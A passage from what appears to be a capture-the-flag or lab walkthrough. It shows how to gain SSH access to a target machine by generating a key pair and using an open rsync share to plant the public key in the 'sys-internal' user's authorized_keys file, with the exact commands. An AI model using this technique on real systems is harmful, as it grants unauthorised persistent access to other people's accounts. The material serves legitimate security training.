 <img style="float: left;" src="screenshots/screenshot25.png">

While it currently does not contain any keys that we can use, one way we can gain a foothold into the machine is by using rsync to upload our own public key into an **'authorized_keys'** file within that directory! From there, our public key will be authorized on the target machine, and we will be able to use our own private key to log into the user account via SSH.

Detailed steps on how to set this up can be found here: https://kb.iu.edu/d/aews 

```
// generate ssh key-pair
ssh-keygen -t rsa

// transfer our public key into an 'authorized_keys' file in the /.ssh folder of the 'sys-internal' user
rsync -av ~/.ssh/id_rsa.pub rsync://rsync-connect@10.10.102.151/files/sys-internal/.ssh/authorized_keys
```

Once this is done, we can log into the **sys-internal** user's account using our private key.

```
ssh sys-internal@10.10.102.151
```
